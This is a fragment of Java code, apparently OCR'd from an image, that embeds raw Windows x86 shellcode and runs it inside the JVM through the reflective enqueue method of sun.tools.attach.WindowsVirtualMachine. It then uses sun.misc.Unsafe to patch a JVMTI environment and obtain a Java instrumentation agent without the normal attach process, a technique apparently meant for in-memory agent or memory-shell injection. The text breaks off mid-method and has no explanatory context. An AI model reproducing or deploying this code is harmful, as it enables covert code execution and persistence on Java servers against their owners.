 ```java
            byte[] shellCode = new byte[]{(byte) 0x90, (byte) 0x90, (byte) 0x90, (byte) 0x33, (byte) 0xC9, (byte) 0x64, (byte) 0xA1, (byte) 0x30, (byte) 0x00, (byte) 0x00, (byte) 0x00, (byte) 0x8B, (byte) 0x40, (byte) 0x0C, (byte) 0x8B, (byte) 0x70, (byte) 0x14, (byte) 0xAD, (byte) 0x96, (byte) 0xAD, (byte) 0x8B, (byte) 0x58, (byte) 0x10, (byte) 0x8B, (byte) 0x53, (byte) 0x3C, (byte) 0x03, (byte) 0xD3, (byte) 0x8B, (byte) 0x52, (byte) 0x78, (byte) 0x03, (byte) 0xD3, (byte) 0x33, (byte) 0xC9, (byte) 0x8B, (byte) 0x72, (byte) 0x20, (byte) 0x03, (byte) 0xF3, (byte) 0x41, (byte) 0xAD, (byte) 0x03, (byte) 0xC3, (byte) 0x81, (byte) 0x38, (byte) 0x47, (byte) 0x65, (byte) 0x74, (byte) 0x50, (byte) 0x75, (byte) 0xF4, (byte) 0x81, (byte) 0x78, (byte) 0x04, (byte) 0x72, (byte) 0x6F, (byte) 0x63, (byte) 0x41, (byte) 0x75, (byte) 0xEB, (byte) 0x81, (byte) 0x78, (byte) 0x08, (byte) 0x64, (byte) 0x64, (byte) 0x72, (byte) 0x65, (byte) 0x75, (byte) 0xE2, (byte) 0x8B, (byte) 0x72, (byte) 0x24, (byte) 0x03, (byte) 0xF3, (byte) 0x66, (byte) 0x8B, (byte) 0x0C, (byte) 0x4E, (byte) 0x49, (byte) 0x8B, (byte) 0x72, (byte) 0x1C, (byte) 0x03, (byte) 0xF3, (byte) 0x8B, (byte) 0x14, (byte) 0x8E, (byte) 0x03, (byte) 0xD3, (byte) 0x52, (byte) 0x33, (byte) 0xC9, (byte) 0x51, (byte) 0x68, (byte) 0x61, (byte) 0x72, (byte) 0x79, (byte) 0x41, (byte) 0x68, (byte) 0x4C, (byte) 0x69, (byte) 0x62, (byte) 0x72, (byte) 0x68, (byte) 0x4C, (byte) 0x6F, (byte) 0x61, (byte) 0x64, (byte) 0x54, (byte) 0x53, (byte) 0xFF, (byte) 0xD2, (byte) 0x83, (byte) 0xC4, (byte) 0x0C, (byte) 0x59, (byte) 0x50, (byte) 0x66, (byte) 0xB9, (byte) 0x33, (byte) 0x32, (byte) 0x51, (byte) 0x68, (byte) 0x6A, (byte) 0x76, (byte) 0x6D, (byte) 0x00, (byte) 0x54, (byte) 0xFF, (byte) 0xD0, (byte) 0x8B, (byte) 0xD8, (byte) 0x83, (byte) 0xC4, (byte) 0x0C, (byte) 0x5A, (byte) 0x33, (byte) 0xC9, (byte) 0x51, (byte) 0x6A, (byte) 0x73, (byte) 0x68, (byte) 0x76, (byte) 0x61, (byte) 0x56, (byte) 0x4D, (byte) 0x68, (byte) 0x65, (byte) 0x64, (byte) 0x4A, (byte) 0x61, (byte) 0x68, (byte) 0x72, (byte) 0x65, (byte) 0x61, (byte) 0x74, (byte) 0x68, (byte) 0x47, (byte) 0x65, (byte) 0x74, (byte) 0x43, (byte) 0x68, (byte) 0x4A, (byte) 0x4E, (byte) 0x49, (byte) 0x5F, (byte) 0x54, (byte) 0x53, (byte) 0xFF, (byte) 0xD2, (byte) 0x89, (byte) 0x45, (byte) 0xF0, (byte) 0x54, (byte) 0x6A, (byte) 0x01, (byte) 0x54, (byte) 0x59, (byte) 0x83, (byte) 0xC1, (byte) 0x10, (byte) 0x51, (byte) 0x54, (byte) 0x59, (byte) 0x6A, (byte) 0x01, (byte) 0x51, (byte) 0xFF, (byte) 0xD0, (byte) 0x8B, (byte) 0xC1, (byte) 0x83, (byte) 0xEC, (byte) 0x30, (byte) 0x6A, (byte) 0x00, (byte) 0x54, (byte) 0x59, (byte) 0x83, (byte) 0xC1, (byte) 0x10, (byte) 0x51, (byte) 0x8B, (byte) 0x00, (byte) 0x50, (byte) 0x8B, (byte) 0x18, (byte) 0x8B, (byte) 0x43, (byte) 0x10, (byte) 0xFF, (byte) 0xD0, (byte) 0x8B, (byte) 0x43, (byte) 0x18, (byte) 0x68, (byte) 0x00, (byte) 0x02, (byte) 0x01, (byte) 0x30, (byte) 0x68, (byte) 0x44, (byte) 0x43, (byte) 0x42, (byte) 0x41, (byte) 0x83, (byte) 0xEC, (byte) 0x04, (byte) 0xFF, (byte) 0xD0, (byte) 0x83, (byte) 0xEC, (byte) 0x0C, (byte) 0x8B, (byte) 0x43, (byte) 0x14, (byte) 0xFF, (byte) 0xD0, (byte) 0x83, (byte) 0xC4, (byte) 0x5C, (byte) 0xC3};
            byte[] stub = longToLittleEndianBytes(JPLISAgent + pointerLength,pointerLength);
            System.arraycopy(stub, 0, shellCode, shellCode.length - 21, stub.length);
            runShellCode(shellCode);
            long jvmtiEnv = this.unsafe.getLong(JPLISAgent + pointerLength);
            this.unsafe.putByte(jvmtiEnv + 201, (byte) 2);
            return JPLISAgent;
        }
    }

    private byte[] longToLittleEndianBytes(long value, int pointerLength) {
        byte[] bytes = new byte[pointerLength];
        for (int i = 0; i < 8; i++) {
            bytes[i] = (byte) (value >>> (i * 8));
        }
        return bytes;
    }

    private void runShellCode(byte[] shellCode) throws Exception {
        Class clazz = Class.forName("sun.tools.attach.WindowsVirtualMachine");
        Method enqueue = clazz.getDeclaredMethod("enqueue", long.class, byte[].class, String.class, String.class, Object[].class);
        enqueue.setAccessible(true);
        enqueue.invoke(null, -1, shellCode, null, null, new Object[]{});
    }

    private Unsafe getUnsafe() {
        try{
        Field field = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
        field.setAccessible(true);
        return (Unsafe) field.get(null);
```